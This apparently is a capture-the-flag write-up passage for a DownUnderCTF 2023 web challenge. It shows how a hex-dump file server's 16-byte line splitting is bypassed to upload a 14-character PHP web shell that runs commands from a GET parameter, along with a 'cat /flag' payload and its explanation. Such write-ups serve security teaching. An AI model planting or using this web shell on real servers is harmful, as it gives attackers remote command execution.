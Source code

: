Wait... What?? Why it's empty?

**I mean... We can test it locally:**
```php
<?php
function xxd(string $s): string {
    $out = '';
    $ctr = 0;
    foreach (str_split($s, 16) as $v) {
        $hex_string = implode(' ', str_split(bin2hex($v), 4));
        $ascii_string = '';
        foreach (str_split($v) as $c) {
            $ascii_string .= $c < ' ' || $c > '~' ? '.' : $c;
        }
        $out .= sprintf("%08x: %-40s %-16s\n", $ctr, $hex_string, $ascii_string);
        $ctr += 16;
    }
    return $out;
}

$output = xxd('<?php system("cat /flag") ?>');
echo $output;
?>
```

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2023/web/xxd-server)-[2023.09.03|19:50:16(HKT)]
└> php xxd.php
00000000: 3c3f 7068 7020 7379 7374 656d 2822 6361  <?php system("ca
00000010: 7420 2f66 6c61 6722 2920 3f3e            t /flag") ?>    
```

Oh! Do you remember the **16 characters chunk**? In here, we can see that **when the payload is greater than 16 characters**, function `xxd()` will split the payload with a newline character.

**Armed with above information, the payload must be less than 16 characters:**
```php
$payload = '<?=`$_GET[1]`;';
$output = xxd($payload);
echo "[+] xdd result:\n$output";
echo '[+] Payload length: ' . strlen($payload);
```

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2023/web/xxd-server)-[2023.09.03|19:56:30(HKT)]
└> php xxd.php
[+] xdd result:
00000000: 3c3f 3d60 245f 4745 545b 315d 3b60       <?=`$_GET[1]`;  
[+] Payload length: 14
```

**This payload is:**
- `<?=` - a PHP short `echo` tag, which is a short-hand to the more verbose `<?php echo`
- Backticks - the execution operators, which executes OS command and it's identical to [shell_exec()](https://www.php.net/manual/en/function.shell-exec.php)
- `$_GET[1]` - when GET parameter `1` is provided, it'll execute the command based on the value
